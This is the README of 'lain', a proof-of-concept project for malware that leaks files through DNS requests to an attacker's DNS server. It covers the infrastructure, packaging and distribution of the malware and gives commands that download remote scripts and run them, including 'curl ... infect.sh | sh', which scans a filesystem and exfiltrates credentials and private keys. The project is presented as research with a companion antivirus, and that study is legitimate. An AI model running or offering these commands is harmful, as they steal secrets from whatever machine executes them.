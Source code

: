 # lain 

This project contains a proof of concept for a data exfiltration method that operates by leaking data through DNS requests. This can be used as a component for any malware that needs a communication channel to export sensitive files. For technical and implementation details, please see the included paper.

* The `client` folder contains the code for a prototype malware client that searches an infected host for important files. It uses our communication infrastructure to leak these files through DNS requests.
* The `dns` folder contains our own custom fork of the `dnspython` library, which we use to form the DNS requests on the client side.
* The `dns_server` folder contains our custom DNS server that listens for incoming requests structured using to our custom request format and logs them in a database for later reconstruction.
* The `lib` folder contains code that handles the encoding and packet structuring when breaking apart the files for transit as well as the code for reconstructing them on the server side. This folder also contains utility code for logging and querying the database.
* The `web_interface` folder contains a demonstrative interface for viewing the data chunks logged in the database and allows for the reconstructed data to be visualized.

The accompanying antivirus can be found [here](https://github.com/CrMallard/Antibody)

## Setup
The DNS server has been tested on `Debian 9.4 x64` please expect different results if you do not use that specific distribution of Linux. The underlying implementation of DNS is different for different distros that we tested. Debian is the one we optimized for.

This project requires Python `>=3.5`. We have no guarantees for any other versions or distributions.

### Custom DNS Server
Make sure you have `sqlite3` installed on your computer.
```
pip install -r requirements.txt
sudo python dns_server/malware_server.py # sudo is required to use port 53
```

### Running the Web Server
Make sure you have `sqlite3` installed on your computer.
```
pip install -r requirements.txt
cd web_interface
export FLASK_APP=app.py
flask run --host=0.0.0.0
```

### Packaging Malware and Running Distribution Server
Make sure you are running a distribution of Linux. Install `pyinstaller`. Run the following command.
```
chmod +x package_malware.sh
./package_malware.sh
cd dist
python -m SimpleHTTPServer
```

Now, with the Custom DNS server running, the Web Server running, and the Distribution Server running, you are ready to go.
You can change the bash scripts `infect.sh` and `one_file.sh` to point to your IP address instead of our default one.


### Exfiltrating a file example (will send to our default DNS server)
The curl in this case is here just for convenience. In a real-world scenario, an adversary would introduce the payload in a different way as we are assuming only port 53 and a few others are open on the machine (curl wouldn't work in that case). But the goal of this project was to talk about the malware itself rather than the introduction of the malware onto the system.
```
curl https://gist.githubusercontent.com/ColdSauce/a1ff11090994bd6e0c6731dcb407ba7a/raw/9d1456301d493dde762aa0aa7e6cac16e6da6e37/one_file.sh > one_file.sh
chmod +x one_file.sh
./one_file.sh <full path to file you would like to extract>
```

### Scanning entire file system and exfiltrating credentials and private keys
The curl in this case is here just for convenience. In a real-world scenario, an adversary would introduce the payload in a different way as we are assuming only port 53 and a few others are open on the machine (curl wouldn't work in that case). But the goal of this project was to talk about the malware itself rather than the introduction of the malware onto the system.
```
curl https://gist.githubusercontent.com/ColdSauce/c65f8d70da7ff04246d5da53534995f5/raw/9b191bbccf99d3da22064b87cd7130404e813442/infect.sh | sh
```

## Authors
* Alvin Lin (omgimanerd)
* Stefan Aleksic (ColdSauce)
* Chris Remillard (CrMallard)
